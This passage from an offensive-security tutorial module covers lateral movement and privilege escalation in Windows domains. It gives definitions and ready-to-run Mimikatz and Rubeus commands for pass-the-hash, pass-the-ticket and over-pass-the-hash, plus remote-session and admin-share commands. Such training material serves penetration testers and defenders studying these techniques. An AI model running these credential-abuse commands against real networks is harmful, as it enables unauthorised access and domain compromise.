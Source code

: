 ### Next Steps  
- **Module 10**: Lateral Movement & Privilege Escalation  

---

## <a name="module-10"></a> Module 10: Lateral Movement & Privilege Escalation

### Introduction  
Pivot across hosts using PtH/PtT, WinRM, PSExec, etc., and escalate local privileges to further domain compromise.

### Definitions  
1. **PtH (Pass-the-Hash)**: Use NTLM hash to authenticate without password.  
2. **PtT (Pass-the-Ticket)**: Inject Kerberos tickets into session.  
3. **Over-Pass the Hash**: Use NTLM hash in Kerberos flow (AS-REP).  
4. **WinRM**: Windows Remote Management protocol (PowerShell Remoting).  
5. **PSExec**: Tool for remote command execution.  
6. **DCOM**: Distributed COM for remote execution.  

### Why It Matters  
- Move to critical servers (file servers, AD CS, etc.) and escalate to DA if not yet.

### Tools & Commands  

#### PtH (Mimikatz)  
```powershell
mimikatz.exe 'sekurlsa::pth /user:corp\jsmith /domain:corp.local /ntlm:8846f7eaee8fb117ad06bdd830b7586c /run:powershell.exe'
```
- Then connect remote:  
  ```powershell
  Enter-PSSession -ComputerName WS002 -Credential corp\jsmith
  ```

#### PtT (Mimikatz)  
```powershell
mimikatz.exe 'kerberos::ptt TGT.kirbi'
```
- Check:  
  ```powershell
  klist
  ```
- Then SMB:  
  ```powershell
  net use \\WS002\C$ 
  ```

#### Over-Pass the Hash (Rubeus)  
```powershell
Rubeus.exe asktgt /user:corp\jsmith /aes256:HASH /domain:corp.local /dc:DC01.corp.local /ptt
```
